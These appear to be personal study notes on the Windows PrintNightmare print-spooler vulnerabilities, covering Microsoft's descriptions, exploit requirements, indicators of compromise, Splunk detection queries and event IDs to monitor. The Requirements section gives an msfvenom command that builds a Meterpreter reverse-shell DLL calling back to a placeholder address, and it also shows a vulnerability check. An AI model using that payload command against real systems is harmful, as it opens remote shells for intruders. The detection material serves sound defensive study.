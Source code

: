 
# PrintNightmare


Microsoft described this vulnerability: *A remote code execution vulnerability exists when the Windows Print Spooler service improperly performs privileged file operations. An attacker who successfully exploited this vulnerability could run arbitrary code with SYSTEM privileges. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights".*

A Print Spooler Service is one of many [[Windows-Services]]. It is defined by Microsoft as: *"The [print spooler](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_c6bde257-38a5-43bb-8d0e-204e226b3655) service is a service that is running on each computer that participates in the Print Services system. The print spooler service implements the [print client](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_3b2da3d1-c159-4399-a6dd-dfd5f76fa2f5) and [print server](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_59fb3ddc-63cf-45df-8a90-46a6af9e00cb) roles, by enabling each participating system to act as a print client, administrative client, or print server for the Print Services system."*

[CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) and [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) are related to each other, but differ regardless of being categorized as **Windows Print Spooler Remote Code Execution Vulnerability**.

As [Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) states in the FAQ, the PrintNightmare (CVE-2021-34527) vulnerability "_is similar but distinct from the vulnerability that is assigned CVE-2021-1675._ _The attack vector is different as well."_

What did Microsoft mean by the attack vector? To answer this question, let's look into the differences between the two vulnerabilities and append the timeline of events. 

Per [Microsoft's](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) definition, PrintNightmare vulnerability is _"a remote code execution vulnerability exists when the Windows Print Spooler service improperly performs privileged file operations. An attacker who successfully exploited this vulnerability could **run arbitrary code** with SYSTEM privileges. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights."._

It is impactful and CVE Score of 8 for both, made more so by public PoC, Print Spooler is enabled by DEFAULT on DC with SYSTEM privileges and can be used over a network.

#### READ!!!

- Will be done in the next two weeks! Thank you for patience 

-   [PrintNightmare Network Analysis | JUMPSEC LABS](https://labs.jumpsec.com/printnightmare-network-analysis/)
-   [From Lares Labs: Detection & Remediation Information for CVE-2021-1675 & CVE-2021-34527](https://github.com/LaresLLC/CVE-2021-1675)
-   [PrintNightmare (CVE-2021-1675 and CVE 2021-34527) Explained](https://www.blumira.com/cve-2021-1675/)


#### Requirements

To exploit the CVE-2021-1675 vulnerability requires:
- Direct or local access to the machine to use a malicious DLL file to escalate privileges.
To exploit the CVE-2021-34527 vulnerability requires:
- Connection to remotely inject the malicious DLL file.

Tools like:
- [[Impacket-Cheatsheet]]
	- `smbserver` to host exploit 
	- `rpcdump @$ip | egrep 'MSPRN|MS-PAR'` to test if target `$ip` is vulnerable
- [THM version of CVE-2021-1675](https://github.com/tryhackme/CVE-2021-1675) and [THM version of Impacket](https://github.com/tryhackme/impacket.git) - here for compatibility and highlight some of my sources.
- Payload - Beacon or Reverse Shell
```ruby
# MSFvenom payload are commonly signatured by AV and EDR
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll -o ~/Desktop/share/malicious.dll 
```


#### IoC

[Sygnia](https://www.sygnia.co/demystifying-the-printnightmare-vulnerability) shared some advanced threat hunting tips to detect PrintNightmare:  

- Search for the **spoolsv.exe** process launching **rundll32.exe** as a child process without any command-line arguments
- Considering the usage of the **pcAddPrinterDriverEx()** function, you will mostly find the malicious DLL dropped into one of these folders `%WINDIR%\system32\spool\drivers\x64\3\` folder along with DLLs that were loaded afterward from `%WINDIR%\system32\spool\drivers\x64\3\Old\` (You should proactively monitor the folders for any unusual DLLs)
- Hunt for suspicious **spoolsv.exe** child processes (**cmd.exe**, **powershell.exe**, etc.)
- The attacker might even use **Mimikatz** to perform the attack, in this case, a print driver named ‘**QMS 810**’ will be created. This can be detected by logging the registry changes (e.g., **Sysmon ID 13**).    
- Search for DLLs that are part of the proof-of-concept codes that were made public, such as **MyExploit.dll**, **evil.dll**, **addCube.dll**, **rev.dll**, **rev2.dll**, **main64.dll**, **mimilib.dll**. If they're present on the endpoint, you can find them with **Event ID 808** in **Microsoft-Windows-PrintService**.

[[Splunk]] detection queries:

**Identifies Print Spooler adding a new Printer Driver:**  
```c
source="WinEventLog:Microsoft-Windows-PrintService/Operational" 
EventCode=316 category = "Adding a printer driver" Message = "*kernelbase.dll,*" Message = "*UNIDRV.DLL,*" Message = "*.DLL.*" 
| stats count min(_time) as firstTime max(_time) as lastTime by OpCode EventCode ComputerName Message 
```
**Detects spoolsv.exe with a child process of rundll32.exe:**
```c
| tstats count min(_time) as firstTime max(_time) as lastTime from 
datamodel=Endpoint.Processes where 
Processes.parent_process_name=spoolsv.exe 
Processes.process_name=rundll32.exe by Processes.dest Processes.user 
Processes.parent_process Processes.process_name Processes.process 
Processes.process_id Processes.parent_process_id
```
**Suspicious rundll32.exe instances without any command-line arguments:**
```c
| tstats count FROM datamodel=Endpoint.Processes where 
Processes.process_name=spoolsv.exe by _time Processes.process_id Processes.process_name Processes.dest 
| rename "Processes.*" as * 
| join process_guid _time 
    [| tstats count min(_time) as firstTime max(_time) as lastTime FROM datamodel=Endpoint.Filesystem where 
Filesystem.file_path="*\\spool\\drivers\\x64\\*" Filesystem.file_name="*.dll" by _time 
Filesystem.dest Filesystem.file_create_time Filesystem.file_name Filesystem.file_path 
    | rename "Filesystem.*" as * 
    | fields _time dest file_create_time file_name file_path process_name process_path process] 
| dedup file_create_time 
| table dest file_create_time, file_name, file_path, process_name
```
**Detects when a new printer plug-in has failed to load:**  
```c
source="WinEventLog:Microsoft-Windows-PrintService/Admin" ((ErrorCode="0x45A" (EventCode="808" OR EventCode="4909")) 
OR ("The print spooler failed to load a plug-in module" OR "\\drivers\\x64\\")) 
  | stats count min(_time) as firstTime max(_time) as lastTime by OpCode EventCode ComputerName Message
```

## Detection

[[Windows-Events-To-Monitor]] :
-  `Microsoft-Windows-PrintService/Admin` 
	-  Event ID **808** - A security event source has attempted to register (can detect unsigned drivers and malicious DLLs loaded by spoolsv.exe)
-  `Microsoft-Windows-PrintService/Operational`
	- Event ID **811** - Logs the information regarding failed operations. The event will provide information about the full path of the dropped DLL.
	- Event ID **316** - look for "Printer driver *filenamehere* for Windows x64 Version-3 was added or updated. Files:- UNIDRV.DLL, AddUser.dll, AddUser.dll. No user action is required.”
-   `Microsoft-Windows-SMBClient/Security`
	- (Event ID **31017**) - This Event ID can also be used to detect unsigned drivers loaded by spoolsv.exe.
-  `Windows System` (Event ID **7031)** - Service Stop Operations (This event ID will show you unexpected termination of print spooler service).

[[Sysinterals-Sysmon]] [[Sysmon-Events]]:
- `Microsoft-Windows-Sysmon/Operational` (Event ID **3**) - Network connection (Look for suspicious ports)
- `Microsoft-Windows-Sysmon/Operational` (Event ID **11**) - FileCreate (File creation events are being logged,  you can look for loaded DLLs in the Print Spooler’s driver directory: `C:\Windows\System32\spool\drivers\x64\3`
- `Microsoft-Windows-Sysmon/Operational` (Event IDs **23**, **26**) - FileDelete (You can hunt for deleted malicious DLLs)



## References

[Print spooler Microsoft Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_c6bde257-38a5-43bb-8d0e-204e226b3655)  
[Print client Microsoft Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_3b2da3d1-c159-4399-a6dd-dfd5f76fa2f5) 
[Print server Microsoft Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_59fb3ddc-63cf-45df-8a90-46a6af9e00cb) 
[CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) 
[CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
[Microsoft's PrintNightmare Definition](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) 
[Microsoft's description of CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) 
[THM PrintNight Room 1 - Learn the Vulberability](https://tryhackme.com/room/printnightmarehpzqlp8)
